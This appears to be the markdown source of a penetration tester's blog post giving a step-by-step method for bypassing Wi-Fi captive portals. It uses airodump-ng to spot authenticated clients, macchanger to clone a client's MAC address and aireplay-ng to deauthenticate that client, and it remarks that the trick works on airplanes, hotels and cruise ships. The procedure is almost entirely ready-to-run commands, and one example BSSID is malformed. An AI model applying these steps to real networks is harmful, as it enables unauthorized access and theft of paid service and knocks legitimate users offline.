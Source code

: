 ```yaml
---
layout: post
title: Bypassing Wireless Captive Portals
categories: [pentest, wireless, bypass]
tags: [captive portal, wireless, bypass]
comments: true
---
```


Ocassionally, on client projects I come across Guest Wireless Networks that require a login after connecting for further network/Internet access. 
In many cases this can be bypassed by spoofing the MAC address of a client that has already connected and authenticated to an AP.  The reason this works is that an authenticated user’s MAC is given an IP that is allowed on the network, so when spoofing a MAC address, there is no need to authenticate as the MAC address is already allowed on the network. The steps below can be used to obtain a MAC address, spoof it and reconnect to an AP bypassing the captive portal login.

**disclaimer**

In addition to client sites, this also works on airplanes, hotels and cruise ships, so please use your powers for good and only perform actions on networks in which you have authorization. 

## Requirements
1.	MAC Changer
*	sudo apt install macchanger
2.	Aircrack-ng
* sudo apt install aircrack-ng

## Bypass Steps
In the examples below I had 2 wireless interfaces: a built in wireless card (wlx8416f907e91f) and a USB wireless card (wlan0).

1.	See what MACs are associated to the AP
* sudo airodump-ng \<interface\> --ivs
*	sudo airodump-ng wlx8416f907e91f –ivs

![aircrack](/assets/captiveportalbypass.png)

From the above we can see A0:3D:6F8B:5D:A0 is the BSSID of an AP (MAC address) of the target Guest Wifi and 70:70:0D:72:2C:3C is a client associated and hopefully authenticated with the AP.

2.	Bring the interface down in preparation to spoof the MAC address
* sudo ifconfig \<interface\> down
* sudo ifconfig wlan0 down
3.	Spoof the MAC address
* sudo macchanger --mac \<MAC to spoof\> \<interface\>
* sudo macchanger --mac 70:70:0D:72:2C:3C wlan0
4.	Bring interface back up
*	sudo ifconfig \<interface\> up
*	sudo ifconfig wlan0 up
5.	Deauth client, hoping to move them to a different AP so there is not a conflict. **This step is optional.**
*	sudo aireplay-ng -0 1 -a \<BSSID\> -c \<client MAC\> \<interface\>
*	sudo aireplay-ng -0 1 -a A0:3D:6F8B:5D:A0 -c 70:70:0D:72:2C:3C wlan0
6.	Connect the interface to the target SSID as normal.
7.	Release and renew your IP address now with the spoofed MAC.
*	sudo dhclient -r && sudo dhclient -v \<interface\>
*	sudo dhclient -r && sudo dhclient -v wlan0
8.	Profit
